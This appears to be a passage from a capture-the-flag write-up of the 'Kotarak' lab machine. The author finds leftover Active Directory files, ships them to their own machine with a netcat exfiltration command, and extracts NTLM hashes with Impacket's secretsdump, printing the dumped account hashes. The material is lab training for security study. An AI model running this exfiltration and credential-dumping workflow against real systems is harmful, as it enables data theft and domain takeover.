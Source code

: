     
    
    tomcat@kotarak-dmz:/home$ ls
    atanas  tomcat
    

`user.txt` is in `atanas`, but I can’t read it as tomcat:

    
    
    tomcat@kotarak-dmz:/home$ ls -l atanas/
    total 4
    -rw-rw---- 1 atanas atanas 33 Jul 19  2017 user.txt
    

`/home/tomcat` (which isn’t actually the home directory for the tomcat user,
but it’s still there) holds two files in a subdirectory:

    
    
    tomcat@kotarak-dmz:/home/tomcat$ find . -type f
    ./to_archive/pentest_data/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
    ./to_archive/pentest_data/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
    

The `.bin` reports to be a Windows registry file, where as `file` doesn’t
recognize the `.dit` as anything more than data:

    
    
    tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ file *
    20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit: data
    20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin: MS Windows registry file, NT/2000 or above
    

The `.dit` is likely the active directory database from a domain controller,
`ntds.dit`.

I’ll exfil each over `nc`. For example, I’ll start a listener with `nc -lnvp 443 > 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit` on my VM, and then run `cat 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit | nc 10.10.14.15 443` on Kotarak.

### Recover Passwords

#### Dump Hashes

`secretsdump` will extract all the hashes from an `ntds.dit` file using the
SYSTEM reg hive to decrypt:

    
    
    oxdf@parrot$ secretsdump.py -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -system 20170721114637_de
    fault_192.168.110.133_psexec.ntdsgrab._089134.bin LOCAL | tee addump
    Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
    
    [*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Searching for pekList, be patient                                           
    [*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff
    [*] Reading and decrypting hashes from 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit 
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
    WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
    WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
    WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
    WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
    atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
    ...[snip]...
    